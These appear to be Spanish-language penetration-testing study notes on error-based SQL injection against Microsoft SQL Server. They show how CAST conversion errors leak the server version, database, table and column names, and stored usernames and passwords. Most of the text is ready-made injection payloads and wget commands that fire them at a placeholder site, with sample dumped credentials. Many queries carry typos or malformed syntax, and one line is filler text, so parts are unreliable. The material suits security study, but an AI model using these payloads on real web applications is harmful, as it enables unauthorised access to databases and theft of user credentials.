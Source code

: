 # MS SQL
Los Schemas son DB con el propósito de describir otros DB definidos por los usuarios en el sistema.

El sa es el super admin y tiene acceso al master DB, el master DB contienes schemas de los user-defined DBs.

Queremos conocer primero la versión de la DB para poder construir el exploit. Para esto forzamos al DBMS mostrar un error incluyedo la versión.

Usamos el trigger a type conversion error

## CAST technique

`99999 or 1 in (SELECT TOP 1 CAST (FIELDNAME as varchar(4096)) from TABLENAME WHERE FIELDNAME not in (LISTA)); --`

Esto inyectado en test.asp?id=PAYLOAD

- 9999 es a bogous value para hacer cumplir el booleano FALSE y pasar al query
- or 1 in es la sentencia que gatillará el error, estamos pidiendo que el DB busque un int en una columna varchar
- CAST (FIELDNAME as varchar(4096)) aquí insertamos la columna que queremos dumpear, tamibén una columna de un user-defined DB o una column de DB "especial". FIELDNAME puede ser una SQL fucntion como user_name() o una variable como @@version.
- WHERE FIELDNAME not in (LISTA) para dumpear la DB, esta parte puede ser omitid, ajustada dependiendo de la tabla que se quiera extraer.

Extrayendo la version de SQL Server:

`99999999 or 1 in (SELECT TOP 1 CAST (@@version as varchar(4096)))--`

![[Pasted image 20240316065902.png]]

Estructura de la master DataBase

[master Database - SQL Server | Microsoft Learn](https://learn.microsoft.com/en-us/sql/relational-databases/databases/master-database?redirectedfrom=MSDN&view=sql-server-ver16)

### Dumping DATABASE data

**Enumeración de DBs**

Primero debemos determinar los privilegios que tenemos extrayendo nuestro usuario actual

 `99999 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096))) --`

![[Pasted image 20240316065916.png]]

En este caso no tenemos privilegios ya que el user es 'user' y no como tendría 'as'
Enumeramos las DB a los que 'user' tiene acceso iterando a través del MASTER DB

`9999 or 1 in (SELECT TOP 1 CAST(db_name(0) as varchr(4096))) --`

- DB_NAME() function acceder al master..sysdatabases table el cual almacena todas las bases de datos instaladas en el servidor, en este caso veremos  a los que tiene acceso 'user'

`Modificamos db_name(1) luego con 2 y así sucesivamente hasta que no podamos enumerar mas DB`

**Enumeración de Tablas**

`9999 or 1 in (SELECT TOP 1 CAST (name as varchar(4096)) FROM database_name..sysdatabase WHERE xtype='U' and name NOT IN lista_tabla_conocida`

- Xtype='U' se refiere a que solo extraiga user-defined tables
- name NOT IN lista_tabla_conocida name es una columna del "sysobjects" special table. Cada vez que encontramos una nueva tabla, lo adicionamos al NOT IN list. Esto es necesario porque el error muestra solo el nombre de la primera tabla


**Enumeración de Columnas**

99999 or 1 in (SELECT TOP 1 CAST (db_name..syscolumns.nmae as varchr(4096)) FROM db_name..syscolumns,db_name..sysobjects WHERE db_name..syscolumns.id=db_name ..sysobjects.id AND db_name..sysobjects.name=table_name AND db_name..syscolumns.name NOT IN (list_columna_conocida)); --

- Db_name es el nombre de la DB que estamos trabajando
- Table_name es el nombre de la tabla
- List_columna_conocida es la lista de las columnas que queremos retrieve.

**Dumpeo de Datos**

Dumpeamos usando la misma técnica del schema enumeration, gatillando errores dependiendo del tipo de datos del campo.

`99999 or 1 in (SELECT TOP 1 CAST (column_name as varchar(4096)) from data_base..table_name WHERE colum_name NOT IN (retrieved_data_list)); --`

`En el ejemplo usamos: page.php?id=1 donde se indetificó la tabla "users" en la base de datos "cms"`

`La tabla contiene las siguientes columnas: id (int), username(varchar) y password (varchar)`

`Para extraer los ID values, usamos el siguiente comando según el ejemplo`

`99999 or 1 in (SELECT TOP 1 CAST (id as varchar)%2bchar(64) from cms..users WHERE id NOT IN ('')); --`

- %2b es "+" y char(64) es el ASCII para @: La concatenación con @ segura que el id selecto sea de tipo varchar haciendo posible de esta manera el CAST error

![[Pasted image 20240316070300.png]]

Para el siguiente valor, excluimos el '1' en el NOT IN list

`99999 or 1 in (SELECT TOP 1 CAST (id as varchar)%2bchar(64) from cms..users WHERE id NOT IN ('1')); --`

![(SQL Serve: Native Client 10 . O ] [SQL Conversion 
tailed when converting the varchar value to data type int .](file:///C:/Users/fredd/AppData/Local/Temp/msohtmlclip1/02/clip_image005.png)

Para extraer el password usamos:

`99999 OR 1 IN (SELECT TOP 1 CAST (username as varchar) from cms..users WHERE id=1); -- -`

 `Podemos usar los mismo para el passoword que es varchar o extraer user/password en una consulta concatenada`

`99999 OR 1 IN (SELECT username%2bchar(64)password from cms..users WHERE id=1); -- -`

## Ejemplos Explotación


ADSDASDAS


`Id=1'`*Pobramos con un single quote*
|Id=1);-- - *Intentamos con paréntesis y comentando, si funciona veremos que no hay un error en la página|*
|Id=1 or @@version=1);-- -<br><br>Id=1 or @@version=1';-- -|Dependiendo del caso, nos mostrará un error de que no se puede convertir @@version en intenger con la versión|
|Id=1 or db_name()=1);-- -|Muestra el DB name en un error de conversión|
|Id=1 or db_name(0)=1);-- -<br><br>Id=1 or db_name(1)=1);-- -|0 es el actual DB, y 1 revela el master BD, 2,3 revelarían otras. Cuando no haya más, ya no habrá error en el site|
|Id=1 or user_name(0)=1);-- -<br><br>Id=1 or user_name(1)=1);-- -|Lo mismo para user name, enumeramos los usuarios de la DB. Sin parámetros muestra el usuario actual|
|Id=-1 or 1 IN (SELECT TOP 1 CAST(@@version as varchas(4096))))--|Extraermos la versión de la DB|

Dado que escribir comandos directamente en el URL bar, podemos usar wget para inyectar:

|   |   |
|---|---|
|>wget "example.test/prodcutos?Id=-1 or 1 IN (SELECT TOP 1 CAST(@@version as varchas(4096))))--" -q -O -|Submit nuestro payload e imprimirlo en estándar outout|
|>wget "example.test/prodcutos?Id=-1 or 1 IN (SELECT TOP 1 CAST(db_name() as varchas(4096))))--" -q -O -|Para extraer el DB server name<br><br>OUTPUT:'usrmanagement'|
|>wget "example.test/prodcutos?Id=-1 or 1 IN (SELECT TOP 1 CAST(name as varchas(4096)) FROM usrmanagement..sysobjects WHERE xtrype='U'))--" -q -O -|Extrae el nombre de la primera tabla de la DB|
|>wget "example.test/prodcutos?Id=-1 or 1 IN (SELECT TOP 1 CAST(name as varchas(4096)) FROM usrmagement..sysobjects WHERE xtrype='U' AND name NOT IN ('tabla1')))--" -q -O -|Muestra la tabla 2, y hacemos lo mismo sucesivamente para las otras. Cuando no tengas más que mostrar, la applicación mostrará el normal output<br><br>OUTPUT:'accounts'|
|>wget "example.test/prodcutos?Id=-1 or 1 IN (SELECT TOP 1 CAST(usrmanagement..syscolumns.name as varchas(4096)) FROM usrmagement..syscolumns, usrmanagement..sysobjects WHERE usrmanagement..syscolumns.id=usrmanagement..sysobjects.id AND usermanagement..sysobjects.name='accounts'))--" -q -O -|Buscamos la primera columna de la tabla 'accounts"<br><br>OUTPUT: 'password'<br><br>OUTPUT2:'username'|
|>wget "example.test/prodcutos?Id=-1 or 1 IN (SELECT TOP 1 CAST(usrmanagement..syscolumns.name as varchas(4096)) FROM usrmanagement..syscolumns, usrmanagement..sysobjects WHERE usrmanagement..syscolumns.id=usrmanagement..sysobjects.id AND usermanagement..sysobjects.name='accounts' AND usrmanagement..syscolumns.name NOT IN ('password'))--" -q -O -|Filtramos el resultado previo para extraer la segunda columna|
|>wget "example.test/prodcutos?Id=-1 or 1 IN (SELECT TOP 1 CAST(username%2b'\|'%2bpassword as varchas(4096)) FROM usrmanagement..accounts))--" -q -O -|Extraemos el prime valor de las dos columnas: 'username' y 'password' concatenadas<br><br>Output:'Aministrator\|pass123'|
|>wget "example.test/prodcutos?Id=-1 or 1 IN (SELECT TOP 1 CAST(username%2b'\|'%2bpassword as varchas(4096)) FROM usrmanagement..accounts WHERE  unsername NOT IN ('Administrator'))--" -q -O -|El siguiente par concatenado|